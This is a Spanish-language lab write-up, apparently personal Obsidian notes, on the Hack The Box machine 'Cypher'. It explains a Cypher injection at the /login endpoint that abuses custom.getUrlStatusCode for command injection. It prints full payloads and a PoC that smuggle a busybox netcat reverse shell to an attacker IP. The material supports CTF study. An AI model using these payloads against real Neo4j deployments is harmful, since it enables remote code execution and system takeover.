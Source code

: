 Neo4j funciona bajo consultas `cypher` ; que hacen llamadas a neo4j; a diferencia de SQL, que está diseñado para bases de datos relacionales, Cypher se centra en la manipulación y el análisis de datos estructurados en forma de grafos, donde los nodos representan entidades y las relaciones (o aristas) representan conexiones entre ellas.
# RCE
Podemos triggerear el curl en endpoint `/login` de la pagina de cypher

El codigo para explotar el RCE se ve tal que asi 
```cypher
a' return h.value as a UNION CALL custom.getUrlStatusCode("example.com;<payload>;#") YIELD statusCode AS a RETURN a;//
```

El payload comienza cerrando el contexto de cadena existente en la consulta Cypher con una `'`. Esto efectivamente termina la estructura de la consulta prevista, permitiendo al atacante adjuntar su código malicioso.

**Primera cláusula RETURN (RETURN h.value AS a):**  
Este segmento intenta devolver el valor de `h.value` alias como `a`. Si `h` no está definido, esta parte podría no producir salida significativa, pero sirve para alinear la estructura de la consulta para el subsiguiente `UNION`.

**Cláusula UNION:**  
El operador `UNION` combina los resultados de dos consultas. En este contexto, fusiona el resultado de la consulta benigna con el malicioso, facilitando la ejecución del código del atacante.

**Llamada al procedimiento custom.getUrlStatusCode(...):**  
Este procedimiento personalizado se explota para realizar una solicitud HTTP y luego un comando aprovechando el codigo del .jar . La URL proporcionada incluye una inyección de comandos:  
`http://10.10.x.x:8000;busybox nc 10.10.14.195 443 -e sh;#`  
Aquí, el punto y coma (`;`) permite la ejecución de múltiples comandos. Después de intentar acceder a `http://10.10.x.x:8000/`, se ejecuta `busybox nc 10.10.14.195 443 -e sh`, lo cual inicia una conexión de shell inversa hacia la máquina del atacante.

**Cláusulas YIELD y RETURN finales:**  
`YIELD statusCode AS a` captura el código de estado HTTP desde la llamada a `getUrlStatusCode`, alias como `a`. El subsiguiente `RETURN a` devuelve este código de estado. Aunque el código de estado en sí mismo podría ser de interés limitado, estas cláusulas aseguran que la consulta se ejecute sin errores de sintaxis, facilitando el objetivo principal de **rce**.


para mas info acerca de la explotacion y de los comandos cyphers podemos consultar [Cypher commands y RCE en cypher](obsidian://open?vault=HTB&file=Machines%2FCypher%2FCypher%20commands%20y%20RCE%20en%20cypher)

--- 

## POC

```bash
a' return h.value as a UNION CALL custom.getUrlStatusCode("http://10.10.14.167:8000;busybox nc 10.10.14.167 2323 -e sh;#") YIELD statusCode AS a RETURN a;// 
```
![[Pasted image 20250306122642.png]]
